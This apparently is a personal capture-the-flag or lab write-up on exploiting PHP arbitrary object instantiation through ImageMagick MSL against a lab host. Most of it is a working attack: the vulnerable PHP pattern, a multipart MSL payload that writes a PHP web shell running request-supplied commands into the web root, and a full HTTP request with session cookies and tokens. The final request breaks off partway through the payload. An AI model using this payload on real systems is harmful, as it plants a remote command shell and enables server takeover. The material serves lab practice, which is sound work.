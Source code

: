 i have a feeling we can upload a payload somehow here...


i googled and tried a lot of things none worked even if we put python server and php webshell/revshell it is not working... but my python server does get hit.... i looked at writeup for this:
https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/

```php
# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

we need to POST req here 
`POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1`

then where the body goes use this:
```
--------------------------abcd
Content-Disposition: form-data; name="file"; filename="test.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
<write filename="info:/var/www/html/intentions/storage/app/public/rev.php" />
</image>
--------------------------abcd
```

full req that worked... :
```
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=abcd HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept-Encoding: gzip, deflate, br
X-XSRF-TOKEN: eyJpdiI6IlhOdnEyeFBCdmNQN1N5cjNKeCtsL3c9PSIsInZhbHVlIjoiZXU4Zmx3QUQ5bVFXYUNtcWVyVHhWalJrZWNTbjNLcnpwbS9FcE14em10ejc5MkpaYWdDdVhJbE92OUJodGc3WTRIYkNhN1grTjNNT3Nzd2MyMTYwcHBRcGliS1dScWVjSkFZZVBpVmJsb3ZWcm9ybU8xVGk2Mko5Tjh0TEJjejEiLCJtYWMiOiJhODAyZjA4NDgzOTdlMWQxZTllMGY0MDUwNjU0M2QyNjRhNTQ0NjhkYjEyMWFmYWY4YzVhYWIxMmRjOWU1MzYxIiwidGFnIjoiIn0=
Content-Length: 378
Content-Type: multipart/form-data; boundary=------------------------abcd
Origin: http://10.10.11.220
Connection: keep-alive
Referer: http://10.10.11.220/admin
Cookie: XSRF-TOKEN=eyJpdiI6IlhOdnEyeFBCdmNQN1N5cjNKeCtsL3c9PSIsInZhbHVlIjoiZXU4Zmx3QUQ5bVFXYUNtcWVyVHhWalJrZWNTbjNLcnpwbS9FcE14em10ejc5MkpaYWdDdVhJbE92OUJodGc3WTRIYkNhN1grTjNNT3Nzd2MyMTYwcHBRcGliS1dScWVjSkFZZVBpVmJsb3ZWcm9ybU8xVGk2Mko5Tjh0TEJjejEiLCJtYWMiOiJhODAyZjA4NDgzOTdlMWQxZTllMGY0MDUwNjU0M2QyNjRhNTQ0NjhkYjEyMWFmYWY4YzVhYWIxMmRjOWU1MzYxIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlJLWHp5cGNMZ2I0VWlDZHhmQlR6aXc9PSIsInZhbHVlIjoibGdob2pvdG41SkhxTndLdkdhZGVFTTYrRzdSNVhRT3pZTHRoOEF5UmNoU1l0ZG9UKzFOWjBhVk54bENwSGE4ZG0vek5PVkc2VUZ0NVJPZWtUcUtpSnVGeGQ4RXZmRkJqZ1FRNktyV1hFeFRpTnFUVUM1d0lIVGlWM2E4YjlDQ0wiLCJtYWMiOiJhZGU0YTgzZDdkNTg1NDE0Y2Q5ODk0ZTM0YWI4MTY4NGU1ZmM2NDcyZTMzYzVkZWVhYzcyMDdmNGZkOWU5ZGFmIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92Mi9hdXRoL2xvZ2luIiwiaWF0IjoxNzU3NjQ0NzgyLCJleHAiOjE3NTc2NjYzODIsIm5iZiI6MTc1NzY0NDc4MiwianRpIjoiaXE2TDFFM1VLYWRSZ2hIUiIsInN1YiI6IjEiLCJwcnYiOiIyM2JkNWM4OTQ5ZjYwMGFkYjM5ZTcwMWM0MDA4NzJkYjdhNTk3NmY3In0.UtM0OuBZAUue_rg5W-78B_bdKIXJOUt5rrHZGb8J6ys
Priority: u=0

--------------------------abcd
Content-Disposition: form-data; name="file"; filename="test.msl"
Content-Type: application/octet-stream

<?xml version="1.0" encoding="UTF-8"?>
<image>
<read filename="caption:&lt;?php system($_REQUEST['cmd']); ?&gt;" />
```